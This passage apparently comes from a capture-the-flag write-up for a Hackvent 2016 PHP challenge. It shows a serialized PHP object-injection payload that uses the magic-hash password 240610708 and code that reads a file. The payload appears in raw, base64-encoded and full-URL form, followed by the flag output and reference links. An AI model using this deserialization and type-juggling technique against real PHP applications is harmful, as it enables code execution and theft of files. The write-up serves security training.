 And the final payload looks like `AdminPackage(240610708, 'print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))')` and it will be serialized to:
```
O:12:"AdminPackage":2:{s:8:"password";i:240610708;s:8:"leetness";s:72:
"print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))";}
```

And then encoded to:
```
TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6
ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb250ZW50cygiL2hvbWUvcGVuZ3Uv
N2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=
```

We can then submit this with the URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6In
Bhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb25
0ZW50cygiL2hvbWUvcGVuZ3UvN2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=

And in the bottom of the page we get
```
[CUT by TROLLI101]
     - 1337 -
      .___.
     /     \
    | O _ O |
    /  \_/  \  NOOT NOOT
  .' /     \ `.
 / _| PENGU |_ \
(_/ |       | \_)
    \       /
   __\_>-<_/__
  ~;/     \;~

    - HAX -

Loved your good feedback on the HL chat and on twitter.

If you liked this challenge, tweet me: https://twitter.com/muffiniks

Here's again a gift for you: HV16-p3ng-ug0t-pwn3-dr0x-x0rz

Greetz, MuffinX <3
[CUT by TROLLI101]
```

And the flag is:

> HV16-p3ng-ug0t-pwn3-dr0x-x0rz

References:

- \[1\] Tor browser project, <https://www.torproject.org/>
- \[2\] Proxying Burp Suite through Tor, <http://jerrygamblin.com/2015/12/18/proxying-burpsuite-through-tor/>
- \[3\] Using php://filter for local file inclusion, <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>
- \[4\] Some Stackoverflow page, <http://stackoverflow.com/questions/22140204/why-md5240610708-is-equal-to-md5qnkcdzo>
- \[5\] Indepth Code Execution in PHP: Part Two, <http://www.rafayhackingarticles.net/2014/09/indepth-code-execution-in-php-part-two.html>
